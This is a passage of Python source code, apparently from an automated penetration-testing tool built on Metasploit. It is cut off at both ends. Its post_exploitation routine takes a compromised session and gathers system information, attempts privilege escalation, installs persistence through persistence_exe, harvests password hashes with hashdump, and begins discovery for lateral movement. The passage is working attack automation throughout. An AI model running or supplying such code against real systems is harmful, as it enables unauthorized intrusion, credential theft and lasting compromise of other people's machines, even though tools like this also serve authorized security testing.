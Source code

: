 ````python
                False,
                {"exploit": exploit_module, "payload": payload, "error": str(e)}
            )

        return None

    def post_exploitation(self, session: Session) -> Dict[str, Any]:
        """Perform post-exploitation activities"""
        logger.info(f"Starting post-exploitation on session {session.session_id}")

        if not self.msf_client:
            return {}

        results = {
            "privilege_escalation": False,
            "persistence": False,
            "lateral_movement": [],
            "data_collection": [],
            "credentials": []
        }

        try:
            # Get session object from Metasploit
            msf_session = self.msf_client.sessions.session(session.session_id)

            # System information gathering
            logger.info("Gathering system information...")
            system_info = msf_session.run_with_output('sysinfo')
            results["data_collection"].append({
                "type": "system_info",
                "data": system_info
            })

            # Privilege escalation attempt
            if self.config['automation'].get('auto_privilege_escalation', False):
                logger.info("Attempting privilege escalation...")
                # Use post/multi/recon/local_exploit_suggester
                suggester_result = msf_session.run_with_output('run post/multi/recon/local_exploit_suggester')
                results["privilege_escalation"] = "SYSTEM" in suggester_result or "root" in suggester_result

            # Persistence establishment
            if self.config['automation'].get('auto_persistence', False):
                logger.info("Establishing persistence...")
                # Use post/windows/manage/persistence_exe or similar
                persistence_result = msf_session.run_with_output('run post/windows/manage/persistence_exe')
                results["persistence"] = "success" in persistence_result.lower()

            # Credential harvesting
            logger.info("Harvesting credentials...")
            hashdump_result = msf_session.run_with_output('hashdump')
            if hashdump_result:
                results["credentials"].append({
                    "type": "password_hashes",
                    "data": hashdump_result
                })

            # Network discovery for lateral movement
            if self.config['automation'].get('auto_lateral_movement', False):
                logger.info("Discovering network for lateral movement...")
````